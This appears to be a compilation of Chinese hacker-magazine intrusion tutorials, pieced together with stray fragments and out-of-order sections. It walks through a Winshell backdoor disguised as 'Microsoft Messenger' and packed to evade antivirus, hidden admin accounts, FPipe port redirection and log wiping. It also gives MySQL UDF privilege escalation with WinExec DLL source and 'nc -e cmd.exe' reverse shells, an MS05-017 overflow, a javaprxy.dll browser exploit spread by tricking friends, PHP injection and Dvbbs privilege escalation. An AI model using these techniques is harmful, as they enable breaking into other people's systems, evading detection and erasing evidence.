

| 字段 | 值 |
|---|---|
| Port | 2005 |
| Password | weian82 |
| Password Banner | Lost Connection! |
| Registry KeyName | Micssen |
| Service Name | Micssen |
| Service DisplayName | Microsoft Messenger |
| Service Description | 发送和接收系统报警服务传递的消息。 |
| DoWnExec Flag | No |
| URL Address | (空) |
| Destination Filename | (空) |
| AutoInstall Flag | Yes |

现在生成的后门程序为 `server.exe`。为了躲避杀毒软件查杀，先用 Aspack 加壳，再用 VProtector1.1.exe 加密，把 Aspack 加壳后的 `server.exe` 拖进去即可。

```bash
net start
net user penetrater$ aaa123 /add
net user penetrater$
```

的界面里一放，再点加密，就行了，如图9。

好了，现在生成的 server.exe 大小 38KB（比未加密前大了一点），不过现在用灰鸽的正反和瑞星杀毒软件已经不能查杀了，如图10。

现在我们来上传配置好的 server.exe，我这里就改名为 winshell.exe，大家最好换成其它的，如图11。




OK，上传成功了，我们运行它，在 WScript.Shell 里输入 `c:\winnt\system32\inetsrv\data\winshell.exe`。现在来看一下我们的 winshell 服务端口 2005 开了没有，调用 cmd.exe 运行 `netstat -an`，如图12。


现在 2005 端口已经开了，我们用 telnet 连接上去，如图13。telnet 连接失败，看来都是端口筛选或是防火墙惹的祸。我们可以放一个反弹型的木马上去……不过都容易被杀，个头又大……我们还是利用端口重定向吧。端口重定向可是突破网关、向内网渗透的好东西。网上关于端口重定向的工具很多，我这里用 Fpipe.exe。


```bash
详细语法：

FPipe [-hv?] [-c <port>] IP
-?/-h   shows this help text
-c      maximum number of allowed simultaneous connections (default 32)
-l      listening port number（本地监听的 TCP 端口号）
-r      remote TCP port number（要定向到的远程端口）
-s      outbound connection source port number
-v      verbose mode
```

这里简单地举一个例子，如果在远程主机的 Shell 下输入 `fpipe -l 8080 -s 90 -r 80 211.67.X.X`，那么所有发送到远程主机 8080 端口的请求都将通过 90 端口连接到远程主机的 80 端口。现在知道 8080 端口我们是可以访问的，那就好办了。我们先上传 Fpipe.exe，然后在 WScript.Shell 里执行 `c:\winnt\system32\inetsrv\data\fpipe -l 8080 -s 90 -r 2005 211.67.X.X`，如图14。


现在我们 telnet 远程主机的 8080 端口，如图15。行了，现在大功告成。我们可以方便地在远程主机 Shell 下执行命令了。最后别忘了清除日志，很多人都使用 logkiller.exe。这里我用 newkilllog.exe，它是 logkiller.exe 的新版本……


擦所有的日志，如图16。这次入侵取得 Webshell 主要靠的是运气，没有什么复杂的技术，也没有什么新花样，只是希望读者们能够灵活地使用各种工具，来最终达到自己的目标。如果有什么问题的话，可以到 X 的论坛上来一起交流。（文章中涉及到的程序 SocksCap、Outpost Port Ready、杏艺逍遥 asp 木马免杀加密工具、VProtector1.1.exe、海阳顶端 2006 木马、Winshell、Fpipe.exe、newkilllog.exe 已经收录于光盘中）


# 真的网站有漏洞了吗？

### 再探九酷网络个人主页空间管理系统

玄猫 Daniel

玄猫在 2004 年 12 期的黑 X 上写了对于九酷网络个人主页空间管理系统（下面称作“九酷”）的一篇漏洞研究，当时针对的版本是 3.0。最近拿到了九酷程序的 4.1 免费版，其官方说明写到已经修正了许多漏洞，但猫猫始终认为简单的 asp 程序很难做到高安全性地管理免费空间，于是简单地对这套程序作了安全检测，结果发现了多个高危漏洞，大部分能直接威胁到管理员或其他用户的安全，甚至危及服务器。我们来看有关这些漏洞。

### 1. 上传漏洞

程序的编写者犯了一个较易被忽略的错误——仅在后台管理中配置“禁止”上传的文件类型，而并非“允许”上传的类型，这样极容易忽略一些危险的扩展名，如图1。


我们来看界面，选择一个 asp 文件上传，程序提示扩展名非法，如图2。好的，我们把扩展名改为 asa，然后再上传，成功，得到了一个 WebShell，如图3。


但是我们运气不会总是这么好吧？如果有经验的网管把 asa、cer 等文件的 asp.dll 映射删除了怎么办呢？我们可以利用 SSI 来获得敏感信息。

什么是 SSI 呢？SSI 是 Server Side Include 的缩写，即服务器包含。这个功能可以在服务端包含一个文件，由 ssinc.dll 这个文件负责包含文件。譬如我们在 asp 中常用的 `<!--#include file="conn.asp"-->`，即是 SSI 的一种应用。在本地写一个文件，内容是 `<!--#include file="inc/conn.asp"-->`，保存为 look.stm 上传到服务器上，然后访问此文件，查看源文件，你就可以看到程序的数据库连接文件的内容了，如图4。这个系统的数据库没有作防下载处理，我们可以放心下载。但要注意：如果文件名是有特殊符号的，我们应该用 ASCII 码转换器来转换正确的地址。


关于上传，还有一个漏洞，这个系统用的是 5xsoft 的通用上传类，有没有上传漏洞呢？这个漏洞很老了，希望大家自己动手。

# 一个人的战争

试试看。

### 2. 保存漏洞

新的 4.1 版九酷，对读目录、文件和删除都作了不错的权限判定，如果直接修改参数会被错误提示。经过测试，在文件编辑保存模块出现了小漏洞：可先将文件保存为 asp 扩展名，再通过一句话木马写入新内容，从而绕过部分限制。


### 3. Stream 下载文件漏洞

程序在网站管理中提供下载功能（由 file_down.asp 负责），通过二进制流读文件后输出到客户端浏览器。

```asp
call downloadFile(Request("path"))
function downloadFile(strFile)
  strFilename = fullpath & strFile
  Response.Buffer = True
  Response.Clear
  Set s = Server.CreateObject("ADODB.Stream")
  s.Open
  s.Type = 1
  Set fso = Server.CreateObject("Scripting.FileSystemObject")
  if not fso.FileExists(strFilename) then
    Response.Write("<h1>Error:</h1>" & strFilename & " does not exist")
    Response.End
  end if
  Set f = fso.GetFile(strFilename)
  intFileLength = f.size
  s.LoadFromFile(strFilename)
  Response.AddHeader "Content-Disposition", "attachment; filename=" & fname
  Response.AddHeader "Content-Length", intFileLength
  Response.ContentType = "application/octet-stream"
  Response.BinaryWrite s.Read
  Response.Flush
  s.Close
end function
```

该模块未检测下载目标文件权限，攻击者可通过构造 path 下载服务器任意文件（如数据库连接文件等），且下载路径应为相对根目录。

### 4. 暴露系统路径漏洞

由于 file_down.asp 的错误处理会在文件不存在时连同完整路径回显，攻击者尝试下载不存在文件即可获得系统路径（如图6）。


程序的漏洞到这里就算说完了，但玄猫在文章中还要说些关于这种系统的看法。个人认为，如果要做到较好安全性，应减少或禁止高风险脚本执行与敏感目录访问权限，否则服务可用性和安全性难兼顾。

- 1. 用户权限难以设定
- 2. Session 混乱难以控制

只要权限设定有误，用户可能越权访问他人目录。即使做了独立配置，若同一服务器上的域名组织和 Session 机制设计不当，仍可能被构造会话绕过登录校验，进而访问管理功能或其他用户数据。

因为漏洞较多且较明显，文中不再逐一给出补丁，建议对 editfile.asp、upfile.asp 等文件继续审计和修复。（文中涉及的程序、木马与工具等说明文字略）

## 详解通过 Mysql 弱口令得到系统权限

很早网上就有了利用 mysql 弱口令得到 webshell 的教程，但是这次我要讲的不是得到 webshell，而是直接得到系统权限。看清楚了，是“直接”得到！首先，我简单说一下 mysql 弱口令得到系统权限的过程，以让大家先清楚我的思路：首先利用 mysql 脚本上传 UDF DLL 文件，然后利用注册 UDF DLL 中自写的 Function 函数，执行任意命令。

思路很简单，网上也有一些教程，但是他们要么没有给出具体的代码，要么就是一句话带过，搞得像我这样的小菜很难理解；终于在我几天不断测试的努力下有了点成绩，下边就是详细过程和相关代码，大家可以自己写 DLL 文件，生成不同文件的二进制码。

我们先说如何生成二进制文件的上传脚本。看看这段 mysql 脚本代码（网友 Mix 使用的方法）：

```sql
set @a = concat('0x0123abc1312389'...)
set @a = concat(@a,0x...)
...
create table Mix(data LONGBLOB);
insert into Mix values('');
update Mix set data=@a;
select data from Mix into DUMPFILE 'C:\\...';
```

前两句很熟悉吧，这个就是我们以前注入的时候，绕过“'”的解决办法，把代码的 16 进制数据赋给一个变量，然后导入这个变量就行了。只不过这里，因为 16 进制代码是一个文件的内容，代码太长了，所以就用了 concat 函数不断把上次的代码叠加起来，这样就累计到一个变量 a 中。

后面三句好说，但是前面的那么多 16 进制数据，手工输入的话，累人啊！不过你还记得以前有一个 exe2bat.vbs 脚本吗？这次我们可以把这个脚本修改一下，得到我们这里需要的 mysql 脚本。脚本内容如下：

```vb
'...vbs脚本...
for i=1 to ...
  write "set @a = concat(...)"
next
```

好了，现在只要把需要上传的文件拖到这个脚本图标上面，就可以生成一个同名的 txt 文件了。这个 txt 文件，就是我们所需要的 mysql 脚本，当然我们还需要修改一下这个 txt 文件（毕竟它是我们偷工减料得来的！），把最后一行生成的多余的那句“set @a = concat('',0x”删除了，加上建表、插值的那三句代码即可。

脚本生成了，如何上传？先登录 mysql 服务器。

```bash
C:\mysql -uroot -h(hostip -p)
Mysql> use mysql;
Mysql> source e:\a\dll.txt;
```

按照上面输入命令，就可以看见屏幕文字飞快闪烁（当然网速要快了），不一会儿你的文件就上传成功了。

下面是我们的重点，我们上传什么 DLL 文件？就目前我在网上看到的有两个已经写好的 DLL 文件，一个是 Mix 写的 mix.dll，一个是 envymaxs 写的 my_udf.dll，这两个我都使用过，都很不错，但是也都有点不足。来看看具体的使用过程吧。

### 1. 先来看看 mix.dll 的使用

登录 mysql，输入命令：

```sql
Mysql> drop function Mixconnect;
Mysql> CREATE FUNCTION Mixconnect RETURNS STRING SONAME 'C:\\windows\\mix.dll';
Mysql> select Mixconnect('你的ip',8080);
```

过一会儿，你使用 nc 监听的 8080 端口，就会得到一个系统权限的 cmd shell 了，如图1。


这个的确不错，通过反弹得到的 shell 可以穿过一些防火墙。可惜的是，它的这个函数写得不是很好，只能执行一次，当你第二次连接数据库后，再次运行 `select Mixconnect('你的ip','8080');` 的时候，对方的 mysql 会当掉，报错，然后服务停止，如图2。


所以，使用 mix.dll 你只能一次成功，没有再来一次的机会。另外根据我的测试，它对 Win2003 的系统好像不起作用。

### 2. 再来看 my_udf.dll 的使用

```sql
Mysql> \x C:\my_udf.dll文件
Mysql> CREATE FUNCTION my_udfdoor RETURNS STRING SONAME '...\\my_udf.dll';
-- 同样的，my_udfdoor也是我们注册后用来执行系统命令的函数
Mysql> select my_udfdoor('');
-- 这里可以随便写my_udfdoor的参数，相当于我们只是激活这个函数
```

好了，现在你可以不用关这个 shell 了，我们再开一个 cmd：

```bash
D:\>nc hostip 3306
...
```

看到这个后，输入“fuck”（这是 my_udfdoor 默认密码，已无法更改），过一会儿就会得到一个拥有系统权限的 cmd shell，如图3。


由于它是 hook recv 版，穿越防火墙能力很强。我在上一个 mix.dll 反弹失败的情况下才使用它，果然不负所望。进入系统后发现对方是双网卡，仅开放 3306 端口。由此可见，my_udf.dll 穿透防火墙能力很强；但它也有 bug：连接激活该函数后（执行 `select my_udfdoor('')`），再执行 `drop function my_udfdoor` 时 mysql 会报错并崩溃，如图4。


所以使用这个 DLL 文件无法删除你的入侵痕迹。最后，我们自己写一个自定义 DLL 文件，仿照 mysql UDF 示例模板即可。示例如下：

```c
#include <stdlib.h>
#include <winsock.h>
#include <mysql.h>
extern "C" {
  char *my_name(UDF_INIT *initid, UDF_ARGS *args, char *is_null, char *error);
}

char *my_name(UDF_INIT *initid, UDF_ARGS *args, char *is_null, char *error) {
  char *me = "my name";
  return me;
}
```

十分简单吧！我们只需要稍微改一下就可以有自己的 DLL 文件了。下面是我对一个哥们 Crackme 修改后的代码：

```c
#include <stdlib.h>
#include <windows.h>
#include <mysql.h>
extern "C" __declspec(dllexport) char *sys_name(UDF_INIT *initid, UDF_ARGS *args, char *is_null, char *error);

__declspec(dllexport) char *sys_name(UDF_INIT *initid, UDF_ARGS *args, char *is_null, char *error) {
  char me[256] = {0};
  if (args->arg_count == 1) {
    strncpy(me, args->args[0], args->lengths[0]);
    me[args->lengths[0]]='\0';
    WinExec(me, SW_HIDE);
  } else {
    strcpy(me, "do_nothing\n");
  }
  return me;
}
```

好了，编译成 sysudf.dll 文件就可以了。我们来用它实验一下，具体操作如下：

```sql
Mysql> \x C:\sysudf.dll文件
Mysql> create function sys_name returns string soname 'C:\\windows\\sysudf.dll';
Mysql> \Ncexe.txt   -- 把 nc.exe 上传
Mysql> select sys_name('nc.exe -e cmd.exe 我的ip 8080');
-- sys_name 参数只有一个，参数指定要执行的系统命令
```


当然，我们也可以不反弹 shell，而去执行其他命令。无论是否执行成功，通常没有回显，所以命令格式要正确。对这个 DLL 文件测试发现，不论何时 `drop function sys_name;` 都不会报错，并且可以多次运行不同命令。

它的缺点是穿越防火墙能力与 mix.dll 一样不算太强，但对于实在穿不过的墙，直接执行其他命令是较好的选择。上面三个 DLL 文件各有长短，如何选择取决于实际情况。

好了，从脚本编写到 DLL 文件编写与使用，本文讲的是弱口令拿系统权限。但如果在注入等过程中拿到 config.php 中的 mysql 密码，不也能用吗？这样我们是不是又找到继 Serv-u 之后的一种提权方法？

（文中涉及程序：echo.vbs、Mix.dll、my_udf.cpp、my_udf.dll、mysql.h、sysudf.dll，已收录于光盘）

# 体验 Windows Message Queuing

# 消息队列远程溢出（MS05-017）

sagi

微软的消息队列技术允许不同时间运行的应用程序跨不同网络或跨临时离线的系统进行通讯。前些日子，消息队列被发现存在严重的远程代码执行漏洞，起因是消息队列组件中的缓冲区未检查。利用该漏洞，远程入侵者可以完全控制受影响系统，以管理员权限执行任意命令。该漏洞可影响到 Windows 2000 SP4 以及 Windows XP SP1。

虽然这个漏洞非常严重，但好在消息队列服务（MSMQ）系统默认并未开启，这就使得该漏洞的利用受到一定条件限制（不过，网上还是可以扫描到一些开放 MSMQ 服务的主机）。我们先来看一下该如何安装消息队列服务，点击“控制面板”上的“添加删除程序”，选择“添加/删除 Windows 组件”，就可以找到消息队列服务（MSMQ），勾选上，点击“下一步”就可以顺利安装这个服务了，如图1。

消息队列服务默认使用的是 2103、2105、2107 这三个端口，服务启动后，我们通过 `netstat -an` 命令可以清楚看到这三个端口已经处于“LISTENING”监听状态了，如图4。


图4


图1

如果你已经安装了该服务，但是却没有启动的话，可以使用 `start msmq` 命令来启动消息队列服务，如图2。


图2

然后，我们执行 `net start` 就可以从服务列表中看到已经开启的“Message Queuing”服务了，如图3。


图3

在网上如何寻找开放消息队列服务的主机呢？我们可以使用 superscan 扫描 2103–2107 端口，如图5。接下来，让我们具体看看漏洞利用程序的使用格式，如图6。语法很简单：`winmsmq0.3 目标IP 连接端口 对方的netbios名 绑定shell的端口 包数count`。默认情况下包数可以不使用；对于 Windows 服务器版以及高级服务器版，如果默认溢出不成功，可以使用包数 count（通常使用 8）再进行溢出尝试。

溢出程序需要知道对方的 netbios 名称，该如何获取对方的 netbios 名称呢？我们可以使用 nbtstat 命令，`nbtstat -A 192.168.0.66` 就可以查看对方的 netbios 名称了，如图7。其实我们使用 superscan 也是可以得到对方 netbios 名称的，只要在“扫描类型”中选上“解析主机名”就可以。


图5


图6


好了，条件都具备了，下面我们用命令 `winmsmq0.3 192.168.0.66 2103 DELL 813 ...`，接下来连接对方 813 端口，`telnet 192.168.0.66 813`，如图9。成功得到一个 cmd shell。文中还说明可用 nc 连接，并演示了 `net user` 添加账号等操作（如图10）。

## E洞洞：Windows 库之不去的痛！

### javaprxy.dll COM 对象漏洞之利用

ShadowSky

Internet Explorer（IE）浏览器是 Windows 系列中的重要组件，也是当时使用最广泛的网页浏览器。文中指出多个历史安全漏洞（如 MS05-002、MS05-016、MS05-020）与 IE 相关，并讨论网页木马与 IE 漏洞之间的关系。

文章介绍了利用 `javaprxy.dll` COM 对象漏洞的思路：生成并投放 htm 文件后，受害者访问可在目标机绑定 cmdshell（示例端口 28876），攻击者随后可通过 nc 连接获取 shell。

### IE javaprxy.dll COM 对象漏洞

IE 浏览器中被发现存在堆溢出漏洞，远程攻击者可利用该漏洞覆盖函数指针或数据段，导致在 IE 环境中执行任意代码。成因与恶意网页初始化 `javaprxy.dll` COM 对象相关，可能引发空指针错误或内存破坏。

漏洞影响范围包括 Windows 98、Windows ME、Windows 2000 SP4、Windows XP SP2、Windows 2003 SP1 等。文中给出利用程序格式示例：`javaprxy.pl > yourhtm.htm`，并说明运行环境（Perl/ActivePerl）。


# 一个人的战争

马也可以），使用方法：`javaprxy.pl > msd.htm`，如图2。


接着，将这个生成的网页上传到你的个人网站上，当然，也可以通过 QQ 或是 MSN 发给你的好友，然后想办法诱惑对方打开这个网页，具体就要看你“欺骗”的水平了，如图3。不好意思，对方很轻易地就上钩了。


使用 nc 来连接对方的 28876 端口，成功地得到了一个 cmd shell，然后成功地添加了一个名为 sky、密码为 sky 的有管理员权限的用户，如图4。

读到这里，很多朋友肯定都想跃跃欲试了吧！但是在用之前要知道，这个漏洞在实际运用时还有一个很大问题，就是这个漏洞的溢出程序所采用的一些方式是暴力扩大内存，从而导致了内存的大量占用，所以在用这个漏洞时计算机就像卡死了一样。


Windows 任务管理器中可以清楚地看到内存从 100 多 MB 直接飙升到 500 多 MB，而且还在增加，如图5。


哈哈，你肯定被吓到了吧 ^_^！所以在实际的运用过程中，我认为最好是把 shellcode 改为有下载执行功能的 shellcode。最后还有一点要说的是，这个漏洞在 XP SP2 及 2003 中很不好用，大多数时候都不会成功。简单地对这个漏洞作了一些介绍和实践，至于还有什么用法那就得靠你自己去想了，如果你有什么好的用法，可以来 X 的论坛讨论。

（文章中涉及到的程序 `javaprxy.pl` 以及转换成 EXE 文件的 `javaprxy.exe` 已经收录于光盘中）

## PHP注入 + MYSQL = SYSTEM权限

在研究了 MySQL 提升权限的问题后，我们不难想到，如果没有弱口令怎么办呢？暴力破解？太需要运气了！其实结合 PHP 注入是很容易搞定的。下面我就用 PHP 注入来演示一下，和我一样菜的朋友们注意啦，开始实践啦！

找到一个站，它的软件下载部分存在 PHP 注入漏洞，随便在一个有漏洞的地方加了一个引号，报错了，收到。得到了网站路径了，但是我们的目标是得到 MySQL 的密码，而这个密码一般是在 `config.php` 里面的，所以我们只需要爆出 `config.php` 的内容就好说了！PHP 注入爆文件的内容当然是采用 `load_file()`，可是 `load_file` 需要知道完整的路径，难道我们去猜？


当然不，我们先来看图1报错得到文件名，因为一般这些文件都有这种语句：`require("包含的php文件的路径")`，而这个一般都会包括 `config.php` 的。好，看我来做：

要用 `load_file()` 当然得用 `union` 了，猜字段这种事情很枯燥的，我们可以利用一些辅助工具……我介绍一个我用的工具 `PHPSend.exe`，猜字段数目的好工具！使用也很简单，利用它我得到了字段数目，如图2。


19 个字段，其中第 12 个字段对应图1中的简介位置。我们开始爆 `global.php` 的路径，先把绝对路径转化为 16 进制，同时考虑到显示 PHP 文件内容的问题，将 `<?php ... ?>` 中的 `?` 替换为 `@`，可用：`replace(load_file(0x绝对路径16进制值),0x3F,0x40)`。

注：`0x3F` 对应 `?`，`0x40` 对应 `@`。提交后即可爆出文件内容，确认包含 `config.php` 文件（见图3）。


看到 `config.php` 的路径了吧，我们继续爆它的内容，如图4。

图4：`config.php` 内容截图（含数据库配置、下载地址、更新信息等表单字段）

看到了吧，我们得到了 MySQL 的密码！用 MySQL 里面的工具 `mysql.exe` 来连接对方：`E:\mysql>mysql -u root -h 对方的ip -p`。先上传 dll 文件，这里选用 `sysudf.dll`，再导出为 dll 文件，如图5。

```sql
mysql> select data from temp1 into DUMPFILE 'C:\WINNT\sysudf.dll';
```

图5

这里需要注意的是，不同系统路径不一样。然后创建函数，如图6。由于 MySQL 转义字符问题，路径中需使用 `\\`，否则导出不成功。

```sql
mysql> CREATE FUNCTION sys_name RETURNS STRING SONAME 'C:\WINNT\sysudf.dll';
```

图6

若对方开 3389，可用 `select sys_name('net user admin admin /add')` 添加用户。文中环境未开 3389，转而上传并执行 `nc.exe`，如图7。

```sql
mysql> select sys_name('c:\winnt\system32\vnc.exe -e cmd.exe ...');
```

图7

这时你本地监听端口，将得到一个反弹 shell，如图8。


好，这个 system 权限的 shell 已经拿到。随后应清理痕迹：删除临时表、删除 `sys_name` 函数、检查 `show tables` 与函数列表等。

文末进一步说明：若目标不能直接连 MySQL，也可先拿 webshell（如支持执行 SQL 命令的 webshell），再通过 `select sys_name('命令')` 执行系统命令。

> （本章中涉及的程序：mysql.exe、nc.exe、phpsend，已收录）

# 动网漏洞提升工具

zj1244[小葵]


最近动网又爆出提升前台权限的漏洞，该漏洞对 7.0 和 7.1 的 Access 和 SQL 版都有效。原理这里就不多说了，感兴趣的朋友可以去百度搜索《动网论坛权限提升漏洞》这篇文章，在这里我们只说说利用方法。

首先用搜索引擎搜索“Powered By Dvbbs Version 7.0”，这样搜索出来的论坛基本就是我们的实验目标了。随便打开一个论坛（最好是打开第 10 页以后的，这样成功率比较高），再注册一个用户。然后来到“控制面板”的“基本资料修改”处，到这里我们就先把浏览器放到一边。接下来开始抓包的工作，打开 WSockExpert，然后打开“基本资料修改”页面，如图1。然后再回到浏览器这边，什么资料都不用改，直接点“更新”即可，如图2。好了，准备工作都做好了，开始提升吧！


打开笔者做的动网前台提升工具，把地址栏填写提交基本设置后的地址，如图3。Cookie 栏填写刚才我们用 WSockExpert 抓到的 Cookie，如图4。然后点击“发送”，返回提示“可能成功咯”。我们重新登录论坛，可以看到——我们如愿地变成了前台管理员，如图5。


当然我们不能满足仅仅当个前台管理员，那让我们开始后台权限的提升吧。其实这个漏洞出来也有一段时间了，可是因为提升的前提比较苛刻——要求登录者要有固顶帖子权限，所以没有引起大家的关注。可是现在有了前台提升漏洞的辅助，二者加起来，不就……好了，不多说了，马上开始我们后台的提升吧！需要注意的是后台提升只对 SQL 版本的动网有效，这就无可避免地涉及到一个问题：怎么知道论坛是 Access 还是 SQL？

笔者这里用到了一个比较笨的方法：不知道大家注意过后台登录页面没，如图6，大家可以看到“版本：Dvbbs v7.0.0 SQL 版”，嘿嘿，动网自己告诉我们了。也许有人会说：那如果管理员把 SQL 改为 Access 呢？那笔者只能说，这样的论坛你最好还是不要碰。在确定论坛版本为 SQL 后，我们便可以进行余下的工作了。网上对于后台提升的过程一般是：抓包、把 SQL 语句转成 Unicode 码、计算 Content-Length 的长度、nc 提交……

提交 SQL 语句就要再次转成 Unicode 码，再次计算。过程很是烦琐，笔者受不了这等折腾，所以做了个利用工具方便大家。先任意找个固顶的帖子，然后把它的地址复制到工具的地址栏里，如图7。


然后还是用 WSockExpert 抓固顶帖所在版面的 Cookie，如图8。操作里选择“提升指定用户为后台管理员”，填写相应用户名和密码，单击“发送”按钮，提示成功。


我们成功地进入了后台，如图9，最后便是用备份数据库获得 webshell 了。先上传一个有 ASP 代码的假图片，记住路径，然后在本地新建个 htm 文件，代码如下：

```html
<form action="http://www.test.com/admin-data.asp?action=RestoreData&act=Restore" method="post">
  <p>已上传文件的位置 <input name="dbpath" type="text" size="80"></p>
  <p>要复制到的位置 <input name="backpath" type="text" size="80"></p>
  <p><input type="submit" value="提交"></p>
</form>
```

这里，www.test.com 是论坛地址，“已上传文件的位置”填写刚才上传的假图片路径，“要复制到的位置”填写你想得到 webshell 的相对路径，提交后即可得到 webshell。


`delete from [dv_log] where l_username='xx'` 就可以删除用户 xx 的日志了。另外一种是利用工具的自定义 SQL 语句执行 delete 语句，可是却失败了。实践后发现 update 可行，可用 `update [dv_log] set l_ip='213.144.41.115' where l_username='xx'`，或通过修改记录内容、修改操作对象等方式处理。

好了，文章到这里也该结束了，由于本人也是个菜鸟，所以文中难免出现错误，还希望大家能够指出，如有什么问题可以联系我。

> （本章节中涉及到的程序：动网固顶工具、动网提升前台工具、WSockExpert 已经收录在光盘中）


接下来的事情就不再细打了，写入 ASP 木马后即可获得网站管理权限。测试过程中应注意后台上传文件命名等细节，避免覆盖或遗留风险。

## 三、补丁修复

上面所说的是针对 Access 数据库的情况。若站点采用 SQL 数据库并存在注入，则可通过 update、insert 等语句执行命令提升权限，因此需要及时修补漏洞。

```asp
replace(request.form("dxname"),"'","")
if len(request.form("dxname"))>16 then call errmsg("不好意思！用户名太长，不能注册！","bank.asp")
```

有些 6kbbs 漏洞可通过编码绕过并暴露数据库路径，mdb 站点仍需修补。可在 conn.asp 中加入错误处理（`on error resume next`）以隐藏错误页面并避免泄露库路径。

> （本章中涉及到的代码提交页面、字符对照表已经收录在光盘中）

## 不好钱劫的密笈

## ——6KBBS的银行插件漏洞

寂寞的刺猬

看了 N 期 X 档案，都是在走别人走的路，虽说是省心，但总感觉缺点什么？啥时候咱这菜鸟也能展翅高飞一次啊！

前几天下载了一套 6KBBS 美化版论坛，在本机上测试一番，感觉还不错。正好这几天闲着无事做，便把 6KBBS 中的 ASP 文件逐个打开看了一下。当看到 `Bank.asp` 时，有一段代码引起了我的注意，其中有一个获得的值没有任何过滤。真是皇天不负有心人，终于让我也找到一回漏洞，心里那个高兴啊，呵呵！有点跑题了！大家先看一下这段代码：

```asp
<%
sub viement
 qmoney=ccur(rs("save"))
 if qmoney<ccur(request.form("dxmoney")) then call errmsg("你是不是好心过头啊，还是从家里偷借钱来炒，让你自己还有多少钱都不知道?", "bank.asp")
 set rs2=server.createobject("adodb.recordset")
 sql2="select save,userid from [user] where name='"&request.form("dxname")&"'"
 rs2.open sql2,conn,1,3
 touserid=rs2("userid")
 if rs2.eof then
   rs2.close
   call errmsg("告北北人家如果想要转送出来的话给站长就好了", "bank.asp")
 end if
 if replace(request.form("dxname")," ","")=lgname then
   call errmsg("给自己转帐很好玩吗?", "bank.asp")
 end if
 rs2("save")=ccur(rs2("save"))+qmoney
 rs2.update
 rs2.close
 set rs2=nothing
 rs("save")=ccur(rs("save"))-qmoney
 rs.update
 rs.close
 set rs=nothing
 call suomsg("恭喜! 转帐成功,系统已自动发信通知了您的朋友", "bank.asp")
 %request.form("dxname")&"!", "bank.asp")
end sub
%>
```

这是社区银行中的转帐代码，首先判断转帐的钱是否大于存款，如大于则提示错误，返回到 `bank.asp`；如小于存款，则执行下面的 SQL 语句。注意这句 `sql2="select save,userid from [user] where name='"&request.form("dxname")&"'"`，其中的 `request.form("dxname")` 直接获取用户输入的值，没有任何过滤。有意思的是，在下面判断输入的是否为用户名本身时，程序员用 `replace()` 函数对获取的值进行了过滤，而在上面的 SQL 语句执行中却疏忽了过滤，他的这一疏忽就给我造成了一个可利用的漏洞。

## 一、本地测试

